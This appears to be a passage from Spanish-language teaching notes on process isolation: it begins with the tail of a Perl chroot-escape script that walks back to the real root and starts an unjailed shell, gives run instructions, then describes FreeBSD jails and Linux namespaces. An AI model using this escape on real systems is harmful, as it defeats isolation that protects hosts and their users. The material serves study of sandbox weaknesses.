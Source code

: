```

# Lock ourselves in a new jail
chroot ".";

# Use our filehandle to get back to the root of the old jail
chdir(*JAILROOT);

# Get to the real root
while ((stat("."))[0] != (stat(".."))[0] or (stat("."))[1] != (stat(".."))[1]) {
        chdir "..";
}

# Lock ourselves in real root - so we're not really in a jail at all now
chroot ".";

# Start an un-jailed shell
system("/bin/sh");
```

Ejecute el script, y posteriormente vuelva a listar los archivos del directorio raíz
```
# ./prisionbreak.pl
# ls
```

**Nota**: Por favor no ser un script kiddie http://www.urbandictionary.com/define.php?term=script%20kiddie

#### FreeBSD Jails
FreeBSD es un sistema operativo open-source y descendiente directo de BSD (Berkeley Software Distribution). La primera versión fue liberada en 1993 y hoy en día es un sistema operativo ampliamente usada alrededor del mundo. La diferencia principal con Linux, es que FreeBSD es un sistema operativo completo (kernel, drivers de dispositivos, utilidades y documentación). Además la licencia que usa es la BSD license que permite modificaciones en el código fuente sin la obligación de liberar los cambios.

Las jaulas son un mecanismo de seguridad y una implementación para dar soporte a la virtualización. Es una mejora al método tradicional de chroot que aparece en la versión 4 de FreeBSD. Un proceso que se ejecuta en una jaula no puede acceder a recursos
por fuera de ella. Cada jaula tiene su propio hostname y dirección IP. Es posible ejecutar varias jaulas a la vez pero estas se ejecutan sobre el mismo kernel, por tanto solo se pueden ejecutar en ellas software soportado por el kernel de FreeBSD.
 
#### Namespaces

La tecnología de namespaces permite crear a partir de recursos globales del sistema, abstracciones de dichos recursos que pueden
ser usadas dentro de ambientes aislados por algun proceso del sistema operativo. Los cambios del recurso a nivel de un namespace
solo son visibles para los procesos dentro de dicho namespace. Uno de los usos de los namespaces es para implementar contenedores.

Linux tiene los siguientes namespaces:
